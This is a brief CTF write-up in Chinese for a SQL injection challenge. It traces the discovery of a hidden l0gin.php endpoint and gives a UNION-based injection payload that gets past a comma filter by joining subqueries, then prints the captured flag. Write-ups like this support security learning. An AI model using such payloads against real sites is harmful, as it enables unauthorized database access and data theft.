 
# SQLi


* 查看源码发现, id有注入漏洞，但是尝试很多方法没法注入

``` 
<html>
<head><title>Loading...</title></head>
<body>
	<!-- login.php?id=1 -->
</body>
</html>
```

* 查看wp, 得知真实漏洞网址是l0gin.php?id=1
> https://blog.csdn.net/qq_41618162/article/details/81980988


* 用传统的手工注入，发现逗号之后被过滤。得知是绕过逗号注入
> https://www.cnblogs.com/hackxf/p/9490534.html 

``` 
-1' union select * from (select group_concat(distinct(flag_9c861b688330)) from users) a join (select 2) b %23
```

* 得到flag
> flag{5942afa9-0518-472d-bdad-61c6c4d0d304}
